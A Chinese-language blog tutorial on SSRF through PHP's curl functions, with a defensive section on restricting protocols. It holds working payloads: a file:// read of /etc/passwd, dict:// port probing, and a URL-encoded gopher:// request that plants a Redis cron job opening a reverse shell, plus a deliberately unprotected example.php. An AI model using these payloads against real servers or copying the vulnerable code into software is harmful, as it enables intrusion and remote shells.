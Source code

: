```yaml
---
layout: post

title: "php curl ssrf攻击"
date: 2017-04-12 22:44:01 +0800

categories: php
tags: [php, ssrf, curl, 网络安全]
---
```


## 什么是 SSRF  [^1]
>SSRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。
>一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。

三个使用`curl`进行`ssrf`的示例 [^2]
```bash
# 利用file协议查看文件
curl -v 'file:///etc/passwd'

# 利用dict探测端口
curl -v 'dict://127.0.0.1:22'
curl -v 'dict://127.0.0.1:6379/info'

# 利用gopher协议反弹shell
curl -v 'gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$56%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a'
```

漏洞代码 **example.php**（ 未做任何SSRF防御 ）
```php
function curl($url){
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    curl_exec($ch);
    curl_close($ch);
}

$url = $_GET['url'];
curl($url);
```

### file

执行 `http://localhost/example.php?url=file:///etc/passwd`, 结果如下,打印文件内容

![passwd info]({{ site.url }}/assets/images/201704/12-01.png)

### dict

执行 `http://localhost/example.php?url=dict://127.0.0.1:22`, 结果如下, 现实端口信息

![dict info]({{ site.url }}/assets/images/201704/12-02.png)

### gopher

>Gopher是一个互联网上使用的分布型的文件搜集获取网络协议。 [^3]

`redis反弹shell`代码如下:
>gopher%3A%2F%2F127.0.0.1%3A6379%2F_%2A3%250d%250a%243%250d%250aset%250d%250a%241%250d%250a1%250d%250a%2456%250d%250a%250d%250a%250a%250a%2A%2F1%20%2A%20%2A%20%2A%20%2A%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F127.0.0.1%2F2333%200%3E%261%250a%250a%250a%250d%250a%250d%250a%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%243%250d%250adir%250d%250a%2416%250d%250a%2Fvar%2Fspool%2Fcron%2F%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%2410%250d%250adbfilename%250d%250a%244%250d%250aroot%250d%250a%2A1%250d%250a%244%250d%250asave%250d%250a%2A1%250d%250a%244%250d%250aquit%250d%250a

转译后的 **攻击脚本**
```
gopher://127.0.0.1:6379/_*3
$3
set
$1
1
$56



*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1





*4
$6
config
$3
set
$3
dir
$16
/var/spool/cron/
*4
$6
config
$3
set
$10
dbfilename
$4
root
*1
$4
save
*1
$4
quit
```
执行后, 在redis中查看
```bash
127.0.0.1:6379> key *
(error) ERR unknown command 'key'
127.0.0.1:6379> keys *
1) "msg"
2) "numbers"
3) "1"
127.0.0.1:6379> get 1
"\r\n\n\n*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1\n"
127.0.0.1:6379>
```
使用 `nc` 监听查看 2333端口反馈信息 [^4]
```bash
$ nc -lvv 2333                                                            1 ↵
Listening on [0.0.0.0] (family 0, port 2333)
```

使用说明:
>gopher协议使用方法：gopher://ip:port/_payload

**gopher转换规则** 如下：
- 如果`第一个字符`是 **>** 或者 **<** 那么丢弃该行字符串，表示请求和返回的时间。
- 如果`前3个字符`是+OK 那么`丢弃`该行字符串，表示返回的字符串。
- 将`\r`字符串替换成`%0d%0a`
- 空白行替换为%0a


## curl安全

1. 限制只支持HTTPS、HTTP协议

    在 `curl_setopt`中添加 `curl_setopt($ch, CURLOPT_PROTOCOLS, CURLPROTO_HTTP | CURLPROTO_HTTPS);`

    则 **file**,**dict**,**gopher** 等其他协议将被过滤, 可以阻止一些ssrf.

1. 禁止30x跳转 (默认关闭)

    在 `curl_setopt`中添加 `curl_setopt($ch, CURLOPT_FOLLOWLOCATION, False);`


>原文: [JoyChou - SSRF in PHP](http://joychou.org/index.php/web/phpssrf.html)

---
更多阅读
- [SSRF](https://hxer.github.io/WebSecurity/ssrf.html)
- [ssrf proxy](https://bcoles.github.io/ssrf_proxy/)
- [Server Side Request Forgery (SSRF)](http://niiconsulting.com/checkmate/2015/04/server-side-request-forgery-ssrf/)
- [What is the Server Side Request Forgery Vulnerability & How to Prevent It?](https://www.netsparker.com/blog/web-security/server-side-request-forgery-vulnerability-ssrf/)
- [利用 gopher 协议拓展攻击面](https://ricterz.me/posts/%E5%88%A9%E7%94%A8%20gopher%20%E5%8D%8F%E8%AE%AE%E6%8B%93%E5%B1%95%E6%94%BB%E5%87%BB%E9%9D%A2)

---
2017-07-24 新增
- [SSRF漏洞的利用与学习](http://uknowsec.cn/posts/notes/SSRF%E6%BC%8F%E6%B4%9E%E7%9A%84%E5%88%A9%E7%94%A8%E4%B8%8E%E5%AD%A6%E4%B9%A0.html)

---
索引

[^1]: [SSRF](https://hxer.github.io/WebSecurity/ssrf.html)
[^2]: [JoyChou - SSRF in PHP](http://joychou.org/index.php/web/phpssrf.html)
[^3]: [Gopher (protocol)](https://en.wikipedia.org/wiki/Gopher_(protocol))
[^4]: [利用 gopher 协议拓展攻击面](https://ricterz.me/posts/%E5%88%A9%E7%94%A8%20gopher%20%E5%8D%8F%E8%AE%AE%E6%8B%93%E5%B1%95%E6%94%BB%E5%87%BB%E9%9D%A2)

